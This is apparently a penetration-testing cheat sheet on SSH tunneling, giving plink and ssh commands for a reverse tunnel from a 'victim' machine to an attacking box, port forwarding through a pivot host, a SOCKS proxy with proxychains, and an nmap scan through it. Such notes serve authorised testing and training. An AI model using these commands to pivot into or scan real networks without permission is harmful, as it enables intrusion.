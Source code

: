 ## SSH Tunnels

### Reverse SSH Tunnel

*From the victim machine to our attacking box.*

```bash
plink -l root -pw <mypassword> <attacking.machine.ip.address> -R 3390:127.0.0.1:3389
```

### SSH Local Port Forwarding

```bash
ssh -L 0.0.0.0:4444:<attacking.machine.ip.address>:4444 <local_hostname>
```

```bash
ssh -L 10443:<victim.ip.address>:443 user@<pivot_host>
```

```bash
ssh -L 0.0.0.0:45001:<victim.ip.address>:80 user@<pivot_host>
```

### SSH Dynamic Port Forwarding

* Set a local listening port and have it tunnel incoming traffic to any remote destination through a socks proxy.
* SSH to create a socks4 proxy on our local attacking box and tunnel all incoming traffic to that port through DMZ network of our victim.
* Forward/Tunnel and redirect our traffic to the victim's machine.

```bash
ssh -f -N -D 9050 root@victim.example.com
```

* proxychains

```bash
nano /etc/proxychains.conf
```

* Content

```bash
[ProxyList]
#...
socks4 127.0.0.1 9050
```

* Run e.g. nmap

```bash
proxychains nmap -p 80 -sT -Pn x.x.x.0/24 --open
```
